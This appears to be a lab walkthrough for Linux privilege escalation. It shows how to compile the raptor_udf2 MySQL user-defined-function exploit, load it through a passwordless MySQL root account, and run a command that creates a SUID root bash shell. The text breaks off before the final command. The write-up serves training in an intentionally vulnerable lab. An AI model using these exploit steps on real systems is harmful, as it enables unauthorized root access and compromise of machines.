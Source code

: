 # Linux PrivEsc

## 1. Connect to the vulnerable machine

Connect to the machine using the credentials provided in the challenge description.



```bash
export IP=10.10.49.124 # Change this to the IP of the vulnerable machine
ssh -oHostKeyAlgorithms=+ssh-rsa user@$IP
```

## 2. Service Exploits

The MySQL service is running as root and the "root" user for the service does not have a password assigned. We can use a popular exploit that takes advantage of User Defined Functions (UDFs) to run system commands as root via the MySQL service.

Change into the /home/user/tools/mysql-udf directory:

```bash
cd /home/user/tools/mysql-udf
```

Compile the raptor_udf2.c exploit code using the following commands:

```bash
gcc -g -c raptor_udf2.c -fPIC
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
```

Connect to the MySQL service as the root user with a blank password:

```bash
mysql -u root
```

Execute the following commands on the MySQL shell to create a User Defined Function (UDF) "do_system" using our compiled exploit:

```sql
use mysql;
create table foo(line blob);
insert into foo values(load_file('/home/user/tools/mysql-udf/raptor_udf2.so'));
select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
create function do_system returns integer soname 'raptor_udf2.so';
```

Use the function to copy /bin/bash to /tmp/rootbash and set the SUID permission:

```sql
select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');
```

Exit out of the MySQL shell (type exit or \q and press Enter) and run the /tmp/rootbash executable with -p to gain a shell running with root privileges:
